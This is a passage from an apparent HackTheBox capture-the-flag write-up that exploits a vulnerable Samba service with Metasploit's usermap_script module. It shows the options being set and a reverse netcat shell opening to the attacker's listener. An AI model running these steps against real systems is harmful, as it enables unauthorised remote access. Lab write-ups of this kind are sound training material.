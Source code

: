 Well, there's only one, but it's definitely the juicy one we indentified above.
Let's load the exploit in to Metasploit, and set some options;

> use exploit/multi/samba/usermap_script
```
msf6 exploit(multi/samba/usermap_script) > 
```
> show options
```
Module options (exploit/multi/samba/usermap_script):

Name    Current Setting  Required  Description
----    ---------------  --------  -----------
RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
RPORT   139              yes       The target port (TCP)

Payload options (cmd/unix/reverse_netcat):
 
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
LHOST  192.168.1.43     yes       The listen address (an interface may be specified)
LPORT  4444             yes       The listen port

Exploit target:

Id  Name
--  ----
0   Automatic
```

We'll want to set RHOSTS to the IP of the target box and LHOST to our IP.

**Important Note**: When using HackTheBox's VPN, you'll need to assign the IP of the openvpn connection as LHOST. To find this out, run *ip a* or *ifconfig* and use the IP listed under 'tun0'., likely to be a 10.10.X.X address.

> msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
```
RHOSTS => 10.10.10.3
```
> msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.2
```
LHOST => 10.10.14.2
```

In this case, we can leave the default payload as cmd/unix/reverse_netcat. Now run it;

> exploit
```
[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] Command shell session 1 opened (10.10.14.2:4444 -> 10.10.10.3:53267) at 2021-03-14 19:39:35 +0000
```

Success! We're in!

---